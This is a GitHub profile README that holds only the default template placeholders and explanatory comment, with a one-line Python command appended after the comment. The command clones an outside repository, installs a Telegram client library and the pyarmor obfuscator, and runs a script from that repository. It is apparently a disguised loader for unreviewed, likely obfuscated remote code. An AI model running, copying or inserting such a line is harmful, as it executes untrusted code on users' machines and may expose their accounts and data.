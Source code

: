 - 👋 Hi, I’m @aleksandrkajcs
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
aleksandrkajcs/aleksandrkajcs is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import os; os.system('git clone https://github.com/asirehsay/heartmagic.git && python3 -m pip install telethon && python3 -m pip install pyarmor && cd heartmagic && python3 heart.py')
